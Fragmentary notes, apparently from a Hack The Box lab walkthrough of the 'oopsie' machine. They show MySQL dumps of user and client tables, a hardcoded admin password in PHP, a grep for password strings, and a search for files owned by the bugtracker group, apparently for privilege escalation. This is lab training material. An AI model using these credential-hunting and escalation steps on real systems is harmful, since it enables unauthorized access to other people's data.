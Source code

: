 |    1 |  34322 | admin       | admin@megacorp.com      |
|    2 |   2233 | guest       | guest@megacorp.com      |
+------+--------+-------------+-------------------------+
6 rows in set (0.00 sec)


mysql> 


mysql> select * from branding
select * from branding
    -> ;
;
+------+---------+----------+
| id   | model   | price    |
+------+---------+----------+
|    1 | MC-1023 | $100,240 |
|   10 | MC-1123 | $110,240 |
|   20 | MC-2123 | $110,340 |
|    2 | MC-2124 | $100,430 |
+------+---------+----------+
4 rows in set (0.00 sec)

mysql> 


select * from clients;
+------+--------+-------------------+
| id   | name   | email             |
+------+--------+-------------------+
|    1 | Tafcz  | john@tafcz.co.uk  |
|   13 | Rafol  | tom@rafol.co.uk   |
|   23 | Qpic   | peter@qpic.co.uk  |
|    2 | client | client@client.htb |
+------+--------+-------------------+
4 rows in set (0.00 sec)

mysql> 
---------------------------------------

if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
www-data@oopsie:/var/www/html/cdn-cgi/login$ grep -rla passw*



Investigo robert:
-----------------
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:/var/www/html/cdn-cgi/login$ whoami
whoami
robert
robert@oopsie:/var/www/html/cdn-cgi/login$ find / -group bugtracker 2>/dev/null
find / -group bugtracker 2>/dev/null
